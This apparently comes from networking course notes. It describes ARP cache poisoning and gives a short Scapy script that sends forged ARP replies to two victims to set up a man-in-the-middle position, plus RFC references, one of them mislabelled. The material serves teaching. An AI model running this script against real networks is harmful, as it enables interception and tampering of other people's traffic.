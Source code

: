 An attacker can intercept ARP requests for a gateway and respond with its own MAC address resulting in a Man in the Middle attack.

References:  
Get more information in RFC 826, 5227, 5494  

Resources for further reading:  
https://computernetworkingsimplified.wordpress.com/2013/11/26/components-data-link-layer-llc-mac/  
RFC 826: https://tools.ietf.org/html/rfc826  
RFC 5227: https://tools.ietf.org/html/rfc5227  
RFC 5495: https://tools.ietf.org/html/rfc5494  


---
#### 1.3.9.1 Demonstrate man-in-the-middle (MitM) with ARP  
DEMO ARP MitM attack
```
my_mac = ""             #Insert Your MAC address
victim1_mac = ""        #Insert victim1 MAC address
victim1_ip = ""         #Insert victim1 IP address
victim2_mac = ""        #Insert victim2 MAC address
victim2_ip = ""         #Insert victim2 IP addres

# -- ARP to Poison Victim 1 to pretend to be Victim 2 --
a = Ether()
a.src= my_mac
a.dst= victim1_mac
a.type= 0x0806

b = ARP()
b.op= 2
b.hwsrc= my_mac
b.psrc= victim2_ip    #Who you are pretending to be
b.hwdst= victim1_mac  #Who's ARP cache you are trying to poison
b.pdst= victim1_ip    #Who's ARP cache you are trying to poison

# -- ARP to Poison Victim 2 to pretend to be Victim 1 --
c = Ether()
c.src= my_mac
c.dst= victim2_mac
c.type= 0x0806

d = ARP()
d.op= 2
d.hwsrc= my_mac
d.psrc= victim1_ip    #Who you are pretending to be
d.hwdst= victim2_mac  #Who's ARP cache you are trying to poison
d.pdst= victim2_ip    #Who's ARP cache you are trying to poison

a.show()
b.show()
c.show()
d.show()

sendp(a/b); sendp(c/d)
```
